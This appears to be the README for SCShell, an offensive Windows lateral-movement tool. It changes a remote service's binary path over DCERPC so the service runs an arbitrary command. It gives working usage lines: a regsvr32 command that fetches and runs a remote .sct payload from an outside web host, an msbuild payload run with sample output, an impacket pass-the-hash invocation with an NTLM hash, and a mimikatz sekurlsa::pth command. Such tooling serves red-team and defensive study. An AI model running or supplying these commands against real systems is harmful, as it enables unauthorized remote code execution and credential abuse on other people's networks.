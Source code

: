 # SCShell

SCShell is a fileless lateral movement tool that relies on ChangeServiceConfigA to run commands. The beauty of this tool is that it does not perform authentication against SMB. Everything is performed over DCERPC.

The utility can be used remotely WITHOUT registering a service or creating a service. It also doesn't have to drop any file on the remote system* (Depend on the technique used to execute)

# How it work

Instead of creating a service it simply remotely open a service and modify the binary path name via the `ChangeServiceConfigA` API.

Then it starts the service.

Once the execution is completed the service binary path is reverted to the original one. The original service path is extracted using `QueryServiceConfigA`.

Everything is happening over DCERPC including the authentication.

![network](https://raw.githubusercontent.com/Mr-Un1k0d3r/SCShell/master/network.png)



# Usage

The current build is written in `C` but I will port it to `C#` and `PowerShell`.

```
Usage:
SCShell.exe target service payload domain username password
```

`target` can be set to `local` to run the payload locally

Remote execution
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /c C:\windows\system32\regsvr32.exe /s /n /u /i://your.website/payload.sct scrobj.dll" . administrastor Password
```

I recommend using `C:\windows\system32\cmd.exe /c` to make sure to payload will not be killed once the service stop. You NEED to use the full path.

You can also use a msbuild payload
```
SCShell.exe 192.168.197.131 XblAuthManager "C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj" . administrator Password
SCShell ***
Trying to connect to 192.168.197.131
Username was provided attempting to call LogonUserA
SC_HANDLE Manager 0x009ED250
Opening XblAuthManager
SC_HANDLE Service 0x009ED1B0
Service path was changed to C:\windows\system32\cmd.exe /C C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe C:\payload.csproj
Service was started.
```

I'm using the XblAuthManager as the target which is the Xbox Accessory Management Service

# Passing the Hash

scshell.py is a python2 & 3 implementation of SCShell. Using impacket project it can easily be used to perform the same lateral movement using pass the hash.

Installation
```
pip install impacket
```

Usage
```
python scshell.py DOMAIN/USER@target -hashes 00000000000000000000000000000000:ad9827fcd039eadde017568170abdecce
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Command need to use FULL path. No command output.
SCShell>

```

You can use the `C` utility to pass the hash. By default the current process token will be used. You can set the current process token using standard pass the hash approach.

On the local system
```
sekurlsa::pth /user:user /domain:domain /ntlm:hash /run:cmd.exe
```

Then run the SCShell.exe within the newly created cmd.exe.

# Compiling from source

The code was compiled on Windows using GCC Mingw compiler


